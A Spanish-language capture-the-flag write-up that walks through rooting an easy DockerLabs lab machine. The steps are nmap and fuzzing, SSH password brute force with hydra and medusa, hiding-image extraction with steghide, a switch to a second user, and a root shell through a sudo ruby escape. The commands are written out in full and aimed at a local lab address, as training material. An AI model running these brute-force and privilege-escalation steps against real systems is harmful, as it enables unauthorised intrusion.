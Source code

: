 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.
> 
![intro](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/intro.png?raw=true)

# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la IP de la víctima para averiguar qué puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png?raw=true)

- `--open`: Mostrar los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumaeración a los puertos abiertos lanzando los scripts predetermiandos e indicando la versión de los servicios. (-sC -sV)
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png?raw=true)

- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos que el puerto `80` corresponde a un servicio HTTP. Vamos a investigar qué hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extensión de navegador `Wappalyzer`).

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png?raw=true)

Abrimos en navegador y vamos a dicha web. Leemos y podemos ver algo interesante: una nota de `Carlota`.
Siempre reviso el codigo fuente de la web `view-source` por si se me escapa algo interesante.

![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png?raw=true)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing

El siguiente paso será intentar descubrir posibles directorios. Podemos usar cualquier herramienta de fuzzing; yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png?raw=true)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

En ambos casos, no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intentar hacer fuerza bruta con uno de ellos. En este caso, usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png?raw=true)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente. Para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos:

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

### Enumeración del Entorno

En primer lugar, veremos si tenemos privilegios sudo mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.
Vamos a comprobar si tiene información oculta. En primer lugar, nos la descargamos. Lo haremos de `dos modos diferentes`, es bueno saber varias maneras de hacer las cosas ya que no siempre funcionan los mismos métodos.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png?raw=true)

Método 1: SCP
~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png?raw=true)

Método 2: Servidor temporal con Python

Víctima:
~~~ bash
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png?raw=true)

Atacante:
~~~
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png?raw=true)


## Esteganografía y escalada de privilegios
Para comprobar si tiene información oculta o metadatos, usaremos la herramienta `steghide`. Con las opciones `extract` y `sf`, extraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png?raw=true)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~

![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png?raw=true)

Probamos la contraseña para escalar a root, pero no hay suerte. Revisamos el archivo `/etc/passwd` para ver los usuarios. Observamos tres usuarios activos: oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png?raw=true)

Probamos con el usuario Oscar y efectivamente funciona.
~~~
su oscar
whoami
~~~
![changeuser](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png?raw=true)

Los siguientes pasos consisten en enumerar al igual que con el usuario Carlota. Tanto directorios, como permisos de archivos y rutas. El primer paso es saber si puede ejecutar sudo con:
~~~
sudo -l
~~~
![nopassword](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/nopasswd.png?raw=true)

Podemos ver que el usuario Oscar puede ejecutar ``/usr/bin/ruby`` como root sin necesidad de contraseña. Ahora vamos a averiguar la manera. Vamos a la web ``GTFOBins``, buscamos ruby y seleccionamos sudo. Leemos atentamente, en este caso buscamos una shell simplemente.

![ruby](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ruby.png?raw=true)
~~~
sudo ruby -e 'exec "/bin/sh"'
whoami
~~~

![root](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/root.png?raw=true)

Pues ya estaría :D



